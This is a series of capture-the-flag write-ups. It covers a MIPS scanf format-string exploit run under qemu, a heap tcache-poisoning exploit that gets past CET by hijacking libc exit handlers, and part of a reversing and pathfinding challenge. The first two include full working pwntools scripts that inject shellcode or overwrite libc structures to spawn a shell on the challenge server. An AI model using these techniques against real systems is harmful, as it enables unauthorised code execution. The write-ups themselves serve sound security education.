## Binary Blast
**Challenge Author:** LMS
**Challenge Description:** Ready for a blast from the past? Navigate the MIPS landscape and watch out for those sneaky format strings. Beware of fake flags—only the real one will do!

### Solution

In this challenge, we are provided multiple files zipped together. These include `Dockerfile`, `chall`, `flag`, `lib/ld.so.1`, `lib/libc.so.6`, `libcapstone.so.4`, `libglib-2.0.so.0`, `qemu-mips`, and `ynetd`. Wow that's a lot! However, most of these are used to simply help setup the docker environment. We will be most interested in the binary itself that is running which is `chall`. Let's run the file command on it.



We see that it is a very non-standard format. We will be dealing with 32-bit MIPS architecture. Before this challenge, I was not very familiar with this architecture, so I researched it a bit. It seems to be an older family of RISC architectures which are often used in hardware. This now makes sense why there are so many setup files as we will have to be emulating MIPS with qemu. Now let's run checksec!



Wow this looks very promising! No RELRO means we will be able to easily overwrite got entries with a buffer overflow, no canary means we can have buffer overflows on the stack, NX unknown means we will have to investigate later, and there are RWX sections for us to write and execute our own shellcode in. Though PIE is present, so we will probably need leaks. Now let's see what this binary is doing in Binja.

There seem to be three functions important to us: `main`, `winner`, and `custom_start_function`. `custom_start_function` is what will be executed first, so let's check it out.



The function is very simple. It prints a message, reads in 20 bytes from the user, and calls main with our input as an argument. 20 bytes is not enough to overflow anything or trigger any vulnerabilities, so let's see what it's doing with our input in main!



Main is even simpler, calling scanf and passing our input as the format argument. This is where the vulnerability lies! Scanf is called and we control the format which will surely lead to format string vulnerabilities. 

In the past, I had done many pwn challenges with format string vulnerabilites that used printf incorrectly. This allows the user to leak values with different format specifiers such as `%p` and then write data with `%n`. But here we have scanf... One thing I do know about scanf is that if used with the `%s` format specifier, it will read in an unrestricted number of bytes similar to a `gets` call. Let's try that first!



Hmm, unfortunately we don't get much feedback from the program. Let's see what's happening in gdb! To setup debugging for this challenge I used this resource as a reference: https://debugmen.dev/ctf-writeup/2021/06/05/babyarmrop.html. It is actually written by one of our mentors Chris Issing! The article explains setting up debugging for an ARM challenge, but all the same principles apply here.

To run the program normally we execute `./qemu-mips -L . chall`. Now to debug, we will add an additional flag which makes the command `./qemu-mips -L . -g 1234 chall`. This will pause execution of the program and wait for a debugger to attach on port 1234. Now, in a second terminal we can run `gdb-multiarch chall` and as a first command in gdb send `target remote :1234`.



Program pausing for a debugger connection.



GDB starting in another terminal window.



GDB successfully connecting and allowing us to step through.

Awesome, now we have a debugging setup! Let's break on main and step through the scanf call to see what happens when we send `%s` and many A's as the scanf input.



So, when scanf is called A0 (the first register in MIPS) stores our controlled input which is currently `%s\n`. A1, the second register which our input will be stored in has the value `0x2b2ab204`. Now we see that sending hundreds of A's won't do anything.



In GDB, we can see main will return to `0x2b3105c4` which is being stored at the stack address `0x2b2ab0ec`. If our A's are being stored at `0x2b2ab204`, they will never be able to reach the return address as we will only write values to higher stack addresses while the return address is lower. Time to try more complicated format strings!

My next idea was to try using positional arguments. I knew from printf challenges that a payload such as `%4$p` would print the 4th argument to printf rather than the first. So, the value of the `r8` register would be printed instead of `rsi` (in the case of x86_64). Perhaps the same principle applies to scanf!



I ran it again and looked at the registers when scanf is called. A1 is still the same value of `0x2b2ab204` which is where our input was stored last time. Now if we use the format of `%2$s`, our input should land in the next argument A2 which has the value `0x2b2ab20c`.



Success! Our A's are being stored at the second register! This is good news as now we can write to any addresses stored on the stack. This is because once printf and scanf run out of positional arguments from registers they will begin taking them off the stack. Let's see what potential places we can write to!



Hmm we have a lot of different options, but we run into the same problem. All of the stack addresses we can write to are higher on the stack than the return address, so we still can't overwrite it to redirect execution. It's time to get a more powerful primitive, arbitrary write!

To do this we will need a pointer chain. The idea is we would find a stack address A that points to another stack address B. So on the stack this would look like `A -> B -> some value`. Now, both A and B would have to be accessible using format specifiers. This way, our first format specifier would be `%A$s`, where A is the index that allows us to write values to the pointer stored in A. Then, we would send our target address. Now the stack would look like `A -> B -> target`. Next, because B was also accessible as a format specifier, we can send the second part of our payload, `%B$s` and our input would now be stored in target thus achieving arbitrary write! The stack would then look something like:
`A -> B -> target -> payload`

Now this was easier said than done. The first step was to find our pointer chain. I ended up using this one: 



Our A would be `0x2b2ab114` and our B would be `0x2b2ab0f0`. Next, we had to find the values that we would use to access these pointers with our positional arguments. To do this, I simply used trial and error with multiple positional arguments and saw where they were being stored.



The payload of `%4$s` stored our input at the address in `0x2b2ab0e0` and each consecutive positional argument would increment by 4 bytes on the stack. Mapping this out got our values of A to be 17 which would write to `0x2b2ab0f0` and then B was 8 which would write to whatever address was being stored at `0x2b2ab0f0`. Let's try it out.

However, to test this, we would need a proper script setup to send addresses through the connection. For this, I decided to start testing on the docker. I modified the Dockerfile to add the `-g 1234` flag, so we can debug it. I also wrote a file `gdbscript` with the following contents:
```
target remote :1234
b main
c
```
This would immediately land us in a breakpoint at main, by simply running `gdb-multiarch chall -x gdbscript` in another terminal window after our connection. I then wrote the following script:

```python=
from pwn import *
import time

elf = ELF("./chall")
libc = ELF("./lib/libc.so.6")
ld = ELF("./lib/ld.so.1")
context.binary = elf

def conn():
    if args.GDB:
        script = """
        b main
        c
        """
        p = gdb.debug(elf.path, gdbscript=script)
    elif args.REMOTE:
        p = remote("0.cloud.chals.io", 12490)
    else:
        p = remote("0.0.0.0", 1024)
    return p

def run():
    global p
    p = conn()

    p.sendafter(b'string: ', b'%17$s%8$s')
    time.sleep(1)
    p.sendline(p32(0x2b2abdec))
    p.sendline(b'BBBB')

    p.interactive()

run()
```

This would connect to 0.0.0.0 port 1024 (where the docker was running), send our format string payload, wait 1 second, send our target address (in this case 0x2b2abdec which was the location of the return address in the docker), and then our payload. If all goes well this would overwrite the current return address with 4 B's. Let's see!



Success! We step through to where main returns and we see it trying to return to 0x42424242. Now the question is where should we jump...



The last function that we didn't look at in the binary was `winner`. It requires many arguments to be set and then would print the flag. However, although this would be possible with a lot of ROPing it would be very difficult. Also, the challenge description says "Beware of fake flags—only the real one will do!". Maybe we should just get a shell instead! The question is how...



Unfortunately, as in other challenges, we can't simply jump to a one_gadget as it will not work in mips. However, thinking back to our checksec ouptut there are RWX sections and the NX bit is unknown, so it may be possible to write and execute shellcode on the stack! This is promising, but we still have one thing missing... leaks. 

If we try to write shellcode on the stack, we will need to know where it is stored in order to properly jump to it. Luckily, qemu is on our side! I noticed when I ran the docker multiple times all the addresses would remain the same, no matter when or from what machine I ran it. As long as I debugged in the docker and used addresses from there, they would be the same as remote! Now we just need to find a place to write shellcode and jump to it.



The thing is, we already control everything past address `0x2b2abdec`. The first 4 bytes store the address which we will jump to, but because `%s` has no bounds checking in scanf we can keep writing bytes. These bytes can become our shellcode. So, now we just set the return address to `0x2b2abdf0`, 4 bytes past where it is being stored, and as a payload send `0x2b2abdec` followed by our shellcode. I updated my script to the following:

```python
p = conn()

p.sendafter(b'string: ', b'%17$s%8$s')
time.sleep(1)
# target address
p.sendline(p32(0x2b2abdec))
payload = shellcraft.sh()
# return address + payload
p.sendline(p32(0x2b2abdf0) + asm(payload))

p.interactive()
```

Luckily, pwntools has support for MIPS, so shellcraft will work well. Let's run it!





Hmm, the instruction `lui $zero, 0xbdec` was written correctly and seems to execute well without a segfault. This means we can execute code on the stack! However, there should be many more instructions as a part of shellcraft.sh(), so what went wrong...

The entire shellcraft payload printed out is: 
```
<\t//5)bi\xaf\xa9\xff\xf4<\tn/5)sh\xaf\xa9\xff\xf8\xaf\xa0\xff\xfc'\xbd\xff\xf4\x03\xa0<\x19\x8c
\x9779\xff\xff\x03H'\xaf\xa9\xff\xfc'\xbd\xff\xfc(\x05\xff\xff\xaf\xa5\xff\xfc#\xbd\xff\xfc$\x19\xff
\xfb\x03('\x03\xa5(\xaf\xa5\xff\xfc#\xbd\xff\xfc\x03\xa0(\xaf\xa0\xff\xfc'\xbd\xff\xfc(\x06\xff\xff
\xaf\xa6\xff\xfc#\xbd\xff\xfc\x03\xa004\x02\x0f\xab\x01\x01\x01\x0c
```

Yet when we see what's written at `0x2b2abdf0` we see:



Only the first byte `<` (0x3c in hex) was written, and then there is a null byte. After some trial and error, I found that scanf with `%s` doesn't read all bytes. Certain bytes, especially those lower in the ascii range were not read properly. If these bytes were encountered, it would stop reading and write a null byte. This wasn't good, manually writing MIPS shellcode that spawned a shell and didn't use any disallowed bytes would take a lot of time. But there was an alternative!

Instead of writing shellcode to spawn a shell, we could write shorter shellcode that would execute the read syscall. This would allow us to send an additional payload that could have any bytes we wanted in it. Time to read about MIPS syscalls!





So to execute a syscall in MIPS we put the syscall number in $v0, all the arguments in $a0, $a1, ... and then execute the syscall instruction. To do this with read, we must use syscall number 4003 or 0xfa3 in hex. Now, let's write some shellcode!

```asm=
lui $v0, 0x0
ori $v0, 4003
lui $a0, 0x0
ori $a0, 0x0
lui $a1, 0xdead
ori $a1, 0xbeef
lui $a2, 0x0
ori $a2, 0x100
syscall
```

After reading about some basic MIPS instructions, this seemed to load all the values needed for the read syscall, where the fd is 0 (stdin), the values are read into address 0xdeadbeef, and 0x100 characters are read. Let's try it!



Almost! All of the instructions are there except for syscall. It turns out the byte representation of syscall is `\x00\x00\x00\x0c` and 0xc is one of the characters that stdin will not read. To get around this, I used an alternative version of the syscall instruction. Instead of using just `syscall` we can do it followed by a number, so `syscall 1`. This will change the bytes of the instruction to be valid and still execute the syscall!



Now it works! We can trigger the read syscall and read to anywhere we'd like. Now the question is where? But this is simple! We can simply read the bytes into the very next instruction that will be executed which is `0x2b2abe14`. I updated the full script to now look like this:

```python=
from pwn import *
import time

elf = ELF("./chall",checksec=0)
libc = ELF("./lib/libc.so.6",checksec=0)
ld = ELF("./lib/ld.so.1",checksec=0)
context.binary = elf

def conn():
    if args.GDB:
        script = """
        b main
        c
        """
        p = gdb.debug(elf.path, gdbscript=script)
    elif args.REMOTE:
        p = remote("0.cloud.chals.io", 12490)
    else:
        p = remote("0.0.0.0", 1024)
    return p

def run():
    payload = '''
    lui $v0, 0x0
    ori $v0, 4003
    lui $a0, 0x0
    ori $a0, 0x0
    lui $a1, 0x2b2a
    ori $a1, 0xbe14
    lui $a2, 0x0
    ori $a2, 0x100
    syscall 1
    '''
    payload = asm(payload)

    global p
    p = conn()

    p.sendafter(b'string: ', b'%17$s%8$s')
    time.sleep(1)
    p.sendline(p32(0x2b2abdec))
    p.sendline(p32(0x2b2abdf0) + payload)
    time.sleep(1)
    p.sendline(asm(shellcraft.sh()))

    p.interactive()

run()
```

Running this on the docker gets a shell! Let's try remote!



We got a shell! Reading flag.txt we see:



Ah this must be the fake flag we were warned about. But no worries we have a shell we can look for the "real flag".



We are greeted with the real flag in the root directory! It references the lack of ASLR and NX caused by qemu which made our exploit much simpler.

### Flag: `SIVUSCG{Seems_That_QEMU_Is_Missing_Protections}`

---

## Leapfrog
- **Challenge Author:** LMS
- **Challenge Description:** ROP/JOP are dead, long live code reuse attacks!

### Solution

In this challenge, we are provided multiple files zipped together. These include `Dockerfile`, `chall`, `flag`, `ld-linux-x86-64.so.2`, `libc.so.6`, `libcapstone.so.4`, `libcet.so`, `libglib-2.0.so.0`, `libgmodule-2.0.so.0`, `qemu-x86_64`, `run.sh`, and `ynetd`. Wow that's a lot! First let's see how it's run in `run.sh`:

```shell
#!/bin/sh
#./qemu-x86_64 ./a.out
./qemu-x86_64 -plugin ./libcet.so,mode=user,ibt=on,ss=on,cpu_slots=128 -d plugin ./chall
```

So, our binary is run through qemu with the libcet plugin. CET stands for "Control-flow Enforcement Technology" and can be read more about [here](https://www.intel.com/content/www/us/en/developer/articles/technical/technical-look-control-flow-enforcement-technology.html). The idea is to add additional protections to the binary, in this case two are enabled `ibt` and `ss`.

IBT stands for Indirect Branch Tracking which restricts COP/JOP attacks. The idea is that all code executed after a ret, call, jump, etc. must start with the `endbr64` instruction. This allows calling functions, but not jumping in the middle of them. This essentially kills any and all gadgets that are used in many exploits. We can no longer jump to snippets of code in the middle of a function and must instead call a function in its entirety.

SS stands for Shadow Stack which prevents ROP attacks. The idea is that the OS creates a "Shadow Stack" which is protected from memory accesses and stores copies of return addresses. If any return addresses are corrupted, the mismatch will be detected and the program will terminate. Similar to a canary, except throughout the entire stack.

Now that we understand the protections in place let's look at what the binary is doing.



We are greeted by a classic heap menu challenge. We are also given a libc leak immediately when running the program as the address of system is printed. Very nice!



The filter function restricts certain syscalls using seccomp. With seccomp-tools we can get a better understanding of what's blocked and allowed.



Hmm so we can't get a shell with a one_gadget or by calling system as execve and execveat are blocked. We will most likely need to ORW (open read write) the flag. 

***Or will we...***

This is where the critical unintended vulnerability occurs in the challenge. As seen in `run.sh` the program is run through qemu. An interesting thing about qemu is that it doesn't implement seccomp rules at all! This means the filter that is defined doesn't actually do anything! We can call system("/bin/sh"), but one_gadgets still won't work because of IBT.

The remaining functions are very standard.
- Create lets us malloc a function of arbitrary size
- Edit lets us modify the content of an allocated chunk
- Delete frees a chunk
- Print allows us to view the content of an allocated chunk

There are MANY vulnerabilities in these implementaitons, but the most important are that free does not clear pointers:



Also, print and edit have no checks to see if a chunk is free or not:



This means we have a view after free and use after free. As we are on libc version 2.39 we will use simple tcache poisoning to achieve arbitrary write.

I first wrote some helper/wrapper functions to make this process easier:
```python
def defuscate(x,l=64):
    p = 0
    for i in range(l*4,0,-4): # 16 nibble
        v1 = (x & (0xf << i )) >> i
        v2 = (p & (0xf << i+12 )) >> i+12
        p |= (v1 ^ v2) << i
    return p

def obfuscate(p, adr):
    return p^(adr>>12)

def create(index, size):
    p.sendlineafter(b'Choice: ', b'1')
    p.sendlineafter(b'Index: ', str(index).encode())
    p.sendlineafter(b'Size: ', str(size).encode())

def edit(index, data):
    p.sendlineafter(b'Choice: ', b'2')
    p.sendlineafter(b'Index: ', str(index).encode())
    p.sendafter(b'Data: ', data)

def delete(index):
    p.sendlineafter(b'Choice: ', b'3')
    p.sendlineafter(b'Index: ', str(index).encode())

def view(index):
    p.sendlineafter(b'Choice: ', b'4')
    p.sendlineafter(b'Index: ', str(index).encode())
    p.recvuntil(b'Data: ')
    return p.recvline()
```

At the start I read the libc leak and get a heap leak by freeing two chunks into a tcache bin and viewing one:

```python
p.recvuntil(b'Hello World: ')
libc.address = int(p.recvline().strip(),16) - libc.symbols['system']

print('LIBC BASE:', hex(libc.address))

create(0, 10)
create(1, 10)
delete(0)
delete(1)
heap_leak = defuscate(u64(view(1)[0:8]))
```

Now that we have a heap leak, we can overwrite the forward pointer of a chunk in a tcache bin and allocate it to an arbitrary location like so:

```python
create(4, 100)
create(5, 100)
delete(4)
delete(5)
edit(5, p64(obfuscate(target_addr, heap_leak)))
create(4, 100)
create(5, 100)
edit(5, payload)
```

Now the real challenge begins :sweat_smile:. We have arbitrary write, but because of the CET protections and regular protections it will be very difficult to escalate this into something useful.



However, the unintended makes our life significantly easier. We no longer have to chain calls to open/read/write or find creative ways to write shellcode. Our only goal is to call the system function with rdi pointing to /bin/sh.

In positions like this, I usually turn to this [resource](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc) created by the Blue Water player nobodyisnobody. It lists a multitude of different ways to achieve code execution with arbitrary write.

The first method I tried was overwriting libc got entries. After trying to overwrite almost every libc GOT entry, 3 were actually being called. However, two were being called by printf and one was called by puts. 



The first puts call was called with the argument "Menu". I wasn't able to modify this string in any way as it was read-only, so no hope there.



The same happened with printf. It would be called with the argument "Choice: ". System was being succesfully called, but with no argument control it was useless.

Next, I tried FSOP. Nobodyisnobody provides a nice way to trigger system("/bin/sh") using FSOP shown below:

```python
# some constants
stdout_lock = libc.address + 0x2008f0   # _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x00000000001676a0 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']            # the function that we will call: system()
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')  # will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200          # _wide_data just need to points to empty zone
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)
# write the fake Filestructure to stdout
write(libc.sym['_IO_2_1_stdout_'], bytes(fake))
# enjoy your shell
```

The only problem is that this method used a `add rdi, 0x10 ; jmp rcx` gadget in order to set rdi. This is a gadget and doesn't start with the `endbr64` instruction, so it is also no good.

Another method proposed by Nobodyisnobody is fake custom conversion specifiers. However, these rely on being able to control the input to printf, so this is also no good.

All of the remaining methods relied on exit. Luckily, in this challenge, when option 0 is entered the program will call `exit()`. This is good as libc will execute the function `__run_exit_handlers()` which we can abuse.



The final method is what ended up working. In TLS (Thread Local Storage) the canary is stored, but also a PTR_MANGLE cookie. This cookie is used to mangle pointers that are called during exit in the initial structure. To get around this, we simply clear out the value of this cookie to be 0, so when xored it's like nothing changed.

```python
tls = libc.address - 0x3000
tls_base = tls+0x740
# remote different base
tls_base = libc.address + 1992512
cookie = tls_base+0x30

# clear PTR_MANGLE cookie
create(4, 100)
create(5, 100)
delete(4)
delete(5)
edit(5, p64(obfuscate(cookie, heap_leak)))
create(4, 100)
create(5, 100)
print('Cookie:', hex(cookie))
edit(5, p64(0))
```

I updated my script to now allocate a chunk in the TLS to clear this cookie.



Here, the cookie can be seen at address `0x7f3dd5072770` right after the canary. I simply allocate a chunk here and overwrite it with null bytes. Also, the TLS is a constant offset away from libc base, so no extra leaking was needed.

Next, the `initial` structure was going to be targetted.



Here, the value 4 is written which represents the "flavor" for `__run_exit_handlers()`. In the source code, the flavor of 4 represents ef_cxa:



It will demangle the pointer at cxafct and execute it with an argument if provided. So, we simply overwrite the initial structure with our own mangled pointer and the pointer to /bin/sh right after. To do this, I added the following to the script:

```python
target = libc.sym['initial']+16
print('Target:', hex(target))
payload = p64(4) + p64(libc.sym['system']<<17) + p64(next(libc.search(b'/bin/sh')))

create(2, 1032)
create(3, 1032)
delete(2)
delete(3)
edit(3, p64(obfuscate(target, heap_leak)))
create(2, 1032)
create(3, 1032)
edit(3, payload)
```

Note: Although the PTR_MANGLE cookie is cleared, the address must still be bitwise shifted left by 17. We use the same method to get arbitrary write. This is what the initial structure looks like after overwriting:



All that's left is to exit and enjoy our shell!



The flag mentions FOP, though we were able to avoid that with the unintended. It's always important to remember that many security features are lost in qemu.

### Full script:
```python=
from pwn import *

elf = ELF("./chall_patched",checksec=0)
libc = ELF("./libc.so.6",checksec=0)
ld = ELF("./ld-linux-x86-64.so.2",checksec=0)
context.binary = elf

def conn():
    if args.GDB:
        #p = remote("0.0.0.0", 1024)
        script = '''
        b main
        b edit
        b *(create+56)
        c
        '''
        p = gdb.debug(elf.path, gdbscript=script)
    elif args.REMOTE:
        p = remote("0.cloud.chals.io", 33799)
    else:
        #p = process("./run.sh",shell=True)
        p = remote('0.0.0.0', 1024)
        #p = process(elf.path)
    return p

def defuscate(x,l=64):
    p = 0
    for i in range(l*4,0,-4): # 16 nibble
        v1 = (x & (0xf << i )) >> i
        v2 = (p & (0xf << i+12 )) >> i+12
        p |= (v1 ^ v2) << i
    return p

def obfuscate(p, adr):
    return p^(adr>>12)

def create(index, size):
    p.sendlineafter(b'Choice: ', b'1')
    p.sendlineafter(b'Index: ', str(index).encode())
    p.sendlineafter(b'Size: ', str(size).encode())

def edit(index, data):
    p.sendlineafter(b'Choice: ', b'2')
    p.sendlineafter(b'Index: ', str(index).encode())
    p.sendafter(b'Data: ', data)

def delete(index):
    p.sendlineafter(b'Choice: ', b'3')
    p.sendlineafter(b'Index: ', str(index).encode())

def view(index):
    p.sendlineafter(b'Choice: ', b'4')
    p.sendlineafter(b'Index: ', str(index).encode())
    p.recvuntil(b'Data: ')
    return p.recvline()

def run():
    global p
    p = conn()

    p.recvuntil(b'Hello World: ')
    libc.address = int(p.recvline().strip(),16) - libc.symbols['system']

    print('LIBC BASE:', hex(libc.address))

    create(0, 10)
    create(1, 10)
    delete(0)
    delete(1)
    heap_leak = defuscate(u64(view(1)[0:8]))

    tls = libc.address - 0x3000
    tls_base = tls+0x740
    # remote different base
    tls_base = libc.address + 1992512
    cookie = tls_base+0x30

    # clear PTR_MANGLE cookie
    create(4, 100)
    create(5, 100)
    delete(4)
    delete(5)
    edit(5, p64(obfuscate(cookie, heap_leak)))
    create(4, 100)
    create(5, 100)
    print('Cookie:', hex(cookie))
    edit(5, p64(0))

    target = libc.sym['initial']+16
    print('Target:', hex(target))
    payload = p64(4) + p64(libc.sym['system']<<17) + p64(next(libc.search(b'/bin/sh')))

    create(2, 1032)
    create(3, 1032)
    delete(2)
    delete(3)
    edit(3, p64(obfuscate(target, heap_leak)))
    create(2, 1032)
    create(3, 1032)
    edit(3, payload)

    p.interactive()

run()
```

### Flag: `SIVUSCG{FOP_TILL_YOU_DROP}`

---

## StarTrek 1
- **Challenge Author:** DrBHacking
- **Challenge Description:**
> You are a remote navigator directing Captain Kirk, who is commanding the USS Enterprise, and Captain Spock, who is commanding the USS Endeavour. Your mission is to guide them on a journey 100 galaxies away to an ancient, advanced civilization known as the "Architects" who have hidden a powerful artifact. This artifact, known as the "Quantum Key," has the potential to unlock new dimensions, granting unparalleled knowledge and power to its possessor...
> 
> But your ships' warp drives are limited and as you journey through the galaxies, you discover that some contain ancient portal mechanisms that can instantly transport you to another galaxy. These portals are unpredictable and may send you further ahead (Slipstream Portals) or behind (Wormhole Portals) your current position. Can you strategically navigate these worlds and accomplish your mission on limited fuel?

### Solution

In this challenge, we are provided a single binary named `startrek` and nothing else. From the challenge description, this looks like it will involve some sort of pathfinding to find the shortest route to guide our ships to the end. Let's run it and check it out!



After running it a couple times, I generally understood what was happening. We control two starships that the program will alternate between, each can jump a total of 5 times, occasionally we will run into slipstreams and wormholes that teleport us, and our goal is seemingly to help both ships reach galaxy 100. This is enough preliminary analysis, let's move onto static analysis! For this I will be using Binary Ninja (Binja).

Luckily, the binary is not stripped so we still have symbol names. There are really only two functions being used, `main` and `jump`. First, I spent some time reading through `main` and tried to get a high level overview of how it worked. I was able to split up the function into three main parts that I'll explain below:

Part 1:



This part is responsible for setting up variables that seem to be used later in the function. Also, I had a hunch that the builtin_memcpy was copying the encrypted flag that would then be decoded later.

Part 2:



This part was the main navigation logic and loop. This is where the program alternates between ships, asks for course heading, and calls `jump` in order to move our ships.

Part 3:



The third and final part is what I call the win code. This part checks that both ships have reached the end and if so, runs many complex operations that seemingly decode the flag. For now, I will not be further reversing this code and will instead focus on triggering the conditions to make this section execute.

Now that I had a high level understanding of how the program worked, I made a plan on how to solve it:
**Step 1**: Better understand and cleanup the disassembly of the main navigation and jump logic, rename variables, and understand what we control.
**Step 2**: Extract the map of slipstreams and wormholes. This will allow us to then use a pathfinding algorithm to search for the optimal routes for our two starships to take.
**Step 3**: Figure out how we can control the trajectory of the ships to follow the routes generated in step 2. Guide the ships along and we should have our flag!

Step 1 is difficult to show in a writeup, but I'll show the results. It involved a lot of running the program and sometimes debugging it in gdb to understand how variables were changing and being accessed. It also helped to have some of the printf statements such as `"Starship: %d\t Current Galaxy: %03d\tJumps Remaining: %d\n"` as this allowed me to easily find the variables storing the starship number, galaxy, and jumps and rename it accordingly. One of the big changes that helped was creating the Starship struct in Binja.



I noticed that the program was storing all information about the starships in one location at various offsets, so creating the struct helped turn some decompilation such as this:



into this:



Much nicer!

Also, I found the exact trigger for the flag to be generated. Each starship object had an integer win check property. If galaxy 100 or greater was reached, this variable is set to 0xbaadd00d as seen in the above code. This is then checked outside of the navigation loop:



If both variables were set to 0xbaadd00d, the flag generation code will trigger, otherwise we fail. However, the flag is never printed, but I assumed it to be stored somewhere in memory for us to find.

Finally, I also figured out the three parameters that the jump function was taking in which I found to be the starship object, the distance to be traveled, and the map of the galaxy.



`jump` is a much simpler function than main and seems to move the starship, check for a slipstream, check for a wormhole, decrease jumps remaining, and then return.

Through my static analysis, I also learned that the map can be visualized as a number line of length 100. Scattered across this number line are slipstreams (that will send us forward) and wormholes (that will send us backwards). In 5 moves, both starships must go from position 0 to 100. That leads us nicely into step 2, finding the map!

Due to my thorough static analysis, this wouldn't be difficult. We know the map is passed as the third argument into jump, so we can simply break on jump and print out. However, there was a problem...



This is how map was being defined in main. It's 0x330 bytes in length which is 816 in decimal. But I thought we only needed 100 numbers :thinking_face:. After reading through `jump` again I understood what was happening.



The first if statement checks for slipstreams. This will access an offset of map that is distance * 4 further. The multiplication by 4 makes sense as the slipstreams and wormholes are being stored as integers which take up 4 bytes.

The else if statement then checks for wormholes. It accesses an offset of map that is (distance + 100) * 4 + 4 further. This is much more complex, but makes sense. With a distance of 0, this statement will check map+404 to see if a wormhole is there, and then continue with increments of 4 bytes.

So this is what our map looks like:
Bytes 0-404: 101 integers (representing the slipstreams from galaxies 0-100)
Bytes 404-808: 101 integers (representing the wormholes from galaxies 0-100)

Because we start at galaxy 0, our number line is actually 101 in length not 100 as I thought earlier. Also, we won't end up having one singular map, but two separate. I extracted them by using gdb, breaking on `jump`, and printing 101 integers:



Here are the two maps I extracted:
Slipstream map: ``[0, 0, 0, 0, 75, 15, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 41, 0, 0, 0, 0, 0, 0, 0, 0, 50, 0, 0, 0, 0, 0, 0, 96, 0, 0, 0, 0, 0, 0, 0, 0, 82, 0, 0, 0, 0, 0, 0, 0, 0, 94, 0, 0, 0, 0, 0, 95, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 91, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]``
Wormhole map: ``[0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 3, 0, 0, 0, 0, 0, 0, 0, 0, 0, 8, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 30, 0, 0, 0, 0, 23, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 41, 0, 0, 0, 0, 62, 0, 0, 0, 0, 0, 0, 67, 0, 0, 0, 0, 0, 0, 0, 0, 0, 12, 0, 0]``

With both maps in hand we can find the optimal path. After some work, I wrote this script that would find it:

```python=
def dfs(pos, depth, history, slipstreams, wormholes, jumps):
    history.append(pos)
    
    if pos == 100:
        print("WE WON")
        print(f"{history} {jumps}")
        return history
      
    if slipstreams[pos] != 0:
        old = pos
        pos = slipstreams[pos]
        history.append(pos)
        slipstreams[old] = 0
    elif wormholes[pos] != 0:
        old = pos
        pos = wormholes[pos]
        history.append(pos)
        wormholes[old] = 0
        
    if depth == 5:
        return
    
    for i in range(1,7):
        if not (pos+i <= 100): continue
        jumps.append(i)
        dfs(pos+i, depth+1, history[:], slipstreams[:], wormholes[:], jumps[:])
        jumps.pop()
    
    # print(history)
    
slipstreams = [0, 0, 0, 0, 75, 15, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 41, 0, 0, 0, 0, 0, 0, 0, 0, 50, 0, 0, 0, 0, 0, 0, 96, 0, 0, 0, 0, 0, 0, 0, 0, 82, 0, 0, 0, 0, 0, 0, 0, 0, 94, 0, 0, 0, 0, 0, 95, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 91, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
wormholes = [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 3, 0, 0, 0, 0, 0, 0, 0, 0, 0, 8, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 30, 0, 0, 0, 0, 23, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 41, 0, 0, 0, 0, 62, 0, 0, 0, 0, 0, 0, 67, 0, 0, 0, 0, 0, 0, 0, 0, 0, 12, 0, 0]
dfs(0, 0, [], slipstreams, wormholes, [])
```

This recursively searches for all solutions of depth 5 and found two that reach 100!



However, there is a problem. These two paths intersect, namely using the wormhole at 47 that jumps to 30 and the slipstream at 35 which jumps to 96. Normally, this would be fine, however, as we can see in the jump code:



Both slipstreams and wormholes are zeroed out after use. Only one starship can use them. But this was an easy fix! I zeroed out the slipstreams and wormholes in my array used in the first path of my script: `[0, 4, 75, 76, 41, 47, 30, 35, 96, 100]` and ran it again.



Great! We now have two paths: `[0, 4, 75, 76, 41, 47, 30, 35, 96, 100]` and `[0, 5, 15, 19, 41, 47, 53, 94, 100]`. To go through these paths we must execute the following 5 jumps in our starships: `[4, 1, 6, 5, 4]` and `[5, 4, 6, 6, 6]`. Onto the final step, controlling our starships!

My first thought was to investigate the "course heading" code. We are able to input a combination of a letter and digit, but how does this turn into a jump of distance 1-6?



In short... it doesn't. This course heading is read in using scanf and then simply used in a printf... No modification of the true distance value. This is also worrying, as it looked like the true distance value was being randomly generated! How are we supposed to control our ships then?

For some time, I got sidetracked here by an interesting observation. We can input two characters into heading, which is then used as a printf format meaning it is vulnerable to printf leaks!



With an input of `%d` I thought we could leak the distance and have it randomly generate until it was a distance we were happy with. This unfortunately did not turn out to be the case. The numbers we could leak were always one of the following: ``[1, 2, 3, 4, 5, 6, 8, 9, 10, 12, 15, 16, 18, 20, 24, 25, 30, 36]``. These were actually equal to `distance * some_random_value`, so although our distance was a factor of the leaked number, it still had too much randomness in it to determine anything.

In the end, randomness had won. I figured I could probably find the random seed and then simulate the randomness operations to predict what distances would show up, but this would be very time consuming. I opted for a different approach of dynamically setting the distance with gdb.



